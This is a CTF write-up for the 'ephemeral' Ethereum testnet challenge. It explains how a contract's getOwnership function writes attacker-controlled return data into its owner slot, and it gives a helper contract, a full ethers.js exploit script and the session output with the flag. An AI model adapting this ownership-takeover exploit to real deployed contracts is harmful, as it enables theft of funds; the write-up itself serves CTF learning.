 ```yaml
---
title: ephemeral
categories: Miscellaneous
tags: Blockchain
completedDuringEvent: true
submitted: true
flags: flag: ARA6{sh0u7_out_70_3ph3me24l_prov1d3r5}
draft: false
---
```

## Scenario

> The Ethereum testnet are one of the great place to test out stuff. Try my new favorite testnet at https://ephemery.dev/.
>
> To get the flag, solve the challenge and paste your proof-of-work result into the remote interface below.
> 
> `nc 103.185.52.95 13378`

By thehxnz

## Solution

Generating the proof-of-work result from `pow.py`, the result is `734514167936362`. We can paste the result into the remote interface to get the server's response.

```sh
$ nc 103.185.52.95 13378
verifiyer 0.1.0
Using https://otter.bordel.wtf/erigon

Enter your PoW: 734514167936362
PoW is valid.
Creating setup contract...
Setup       : 0x2812007F73614B913fb314770BAe528f8B7fc912
Challenge   : 0x1944C4d052D1E6d4ae16654eff2ea9089b7587da
Your Address: 0x29AB03c3f9cFf0CE4188B0b5945745c3c1A39DEF
Private Key : 0x2f85c431ef33e2ac950661946ad27429ed711bd85edcd248157f351c0fffd445
RPC         : https://otter.bordel.wtf/erigon
```

So this will create a **Setup Contract** and a **Challenge Contract**. In the **Setup Contract** the `player` variable will be set to the address we provide, and will create a **Challenge Contract** with the `owner` variable, where the `owner` variable is set to `msg.sender` from the **Setup Contract**.

```
constructor() {
    owner = msg.sender;
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide.

```
function isSolved() external view returns (bool) {
    return IChallenge(challenge).owner() == player;
}
```

From the `transferOwnership` function we can see that we have to change the owner of the **Challenge Contract** to the `player` that we provide. However, we cannot change the `owner` of the **Challenge Contract** because it does not meet the condition` msg.sender == owner`. Where msg.sender is the player and `owner` is the **Setup Contract** that we provide.

```
function transferOwnership(address newOwner) external {
    require(msg.sender == owner, "Not owner");
    owner = newOwner;
}
```

From the `getOwnership` function we can see that check if the caller is a contract then `staticcall` the `account` and call the `gas`, then copy the data from the `returndata` to the `sstore` at slot 0.

```
function getOwnership(address account) external {
    assembly {
        let size := extcodesize(caller())
        if iszero(eq(size, 0)) {
            revert(0, 0)
        }
        let why := staticcall(gas(), account, 0, 0, 0, 0x20)
        
        if iszero(eq(returndatasize(), 0x20)) {
            revert(0, 0)
        }
        returndatacopy(0, 0, 0x20)
        sstore(0, mload(0))
    }
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide. We can do this by deploying a **Helper Contract** that will return the `target` address in the `fallback` function where we return the `target` address in the `returndata`. We can then call the `getOwnership` function with the **Helper Contract** address to write to the `sstore` at slot 0.

```
function getOwnership(address account) external {
    assembly {
        let size := extcodesize(caller())
        if iszero(eq(size, 0)) {
            revert(0, 0)
        }
        let why := staticcall(gas(), account, 0, 0, 0, 0x20)
       
        if iszero(eq(returndatasize(), 0x20)) {
            revert(0, 0)
        }
        returndatacopy(0, 0, 0x20)
        sstore(0, mload(0))
    }
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide. We can do this by deploying a **Helper Contract** that will return the `target` address in the fallback function where we return the `target` address in the `returndata`. We can then call the `getOwnership` function with the **Helper Contract** address to write to the `sstore` at slot 0.

```
pragma solidity ^0.8.0;
contract Helper {
    // 'target' is stored in slot 0.
    address public target;
    constructor(address _target) {
        target = _target;
    }
    // Fallback returns 32 bytes containing 'target'
    fallback() external {
        assembly {
            let t := sload(0)
            mstore(0, t)
            return(0, 32)
        }
    }
}
```

To automate the process, we can create a script using `ethers.js` to interact with the **Challenge Contract** and the **Helper Contract**.

```js
const { ethers, JsonRpcProvider } = require("ethers");
const solc = require("solc");

const SETUP_ADDRESS = "0xBaD1Bf25A3EB1786a0105F429fA63014eA092ea0";
const CHALLENGE_ADDRESS = "0xCf28A080bc6EcAf35764B1e39a8577082B56707b";
const ADDRESS = "0x49F9cdFb00EfA58962Fe062D91B8cCeccEFE5D25";
const PRIVATE_KEY = "0xf17789631ebf2eb733017fa1b6df40ace37ec1e0c8e4742996917b3f37aef572";
const RPC_URL = "https://otter.bordel.wtf/erigon";

const setupABI = ["function isSolved() external view returns (bool)"];
const challengeABI = [
    "function transferOwnership(address newOwner) external",
    "function getOwnership(address account) external",
    "function owner() external view returns (address)",
];

async function compileHelper() {
    const helperSource = `pragma solidity ^0.8.0;
contract Helper {
    // 'target' is stored in slot 0.
    address public target;
    constructor(address _target) {
        target = _target;
    }
    // Fallback returns 32 bytes containing 'target'
    fallback() external {
        assembly {
            let t := sload(0)
            mstore(0, t)
            return(0, 32)
        }
    }
}`;

    const input = {
        language: 'Solidity',
        sources: {
            'Helper.sol': {
                content: helperSource
            }
        },
        settings: {
            outputSelection: {
                '*': {
                    '*': ['*']
                }
            }
        }
    };

    const output = JSON.parse(solc.compile(JSON.stringify(input)));
    const compiledHelper = output.contracts["Helper.sol"]["Helper"];
    const helperAbi = compiledHelper.abi;
    const helperBytecode = compiledHelper.evm.bytecode.object;
    return [helperAbi, helperBytecode];
}

async function exploit() {
    const provider = new JsonRpcProvider(RPC_URL);
    const wallet = new ethers.Wallet(PRIVATE_KEY, provider);
    console.log("Connected as:", wallet.address);

    const setup = new ethers.Contract(SETUP_ADDRESS, setupABI, wallet);
    const challenge = new ethers.Contract(CHALLENGE_ADDRESS, challengeABI, wallet);

    console.log("Owner before exploit:", await challenge.owner());
    console.log("Is solved:", await setup.isSolved());

    const [helperAbi, helperBytecode] = await compileHelper();

    console.log("Deploying Helper contract...");
    const helperFactory = new ethers.ContractFactory(helperAbi, helperBytecode, wallet);
    const helper = await helperFactory.deploy(wallet.address);
    const helperAddress = await helper.getAddress();
    await helper.waitForDeployment();
    console.log("Helper deployed at:", helperAddress);

    console.log("Calling getOwnership with helper address...");
    const tx = await challenge.getOwnership(helperAddress);
    await tx.wait();
    console.log("Transaction confirmed");

    /* console.log("Transferring ownership to wallet...");
    const tx2 = await challenge.transferOwnership(wallet.address);
    await tx2.wait();
    console.log("Ownership transferred to wallet"); */

    console.log("Owner after exploit:", await challenge.owner());
    console.log("Is solved:", await setup.isSolved());
}

exploit();
```

After running the script, we can see that the `owner` of the **Challenge Contract** is changed to the `player` we provided. The `isSolved` function will return `true` if the `owner` of the **Challenge Contract** is the same as the `player` we provided.


```sh
$ nc 103.185.52.95 13378
verifiyer 0.1.0
Using https://otter.bordel.wtf/erigon

Enter your PoW: 734514167936362
PoW is valid.
Challenge solved!
ARA6{sh0u7_out_70_3ph3me24l_prov1d3r5}
```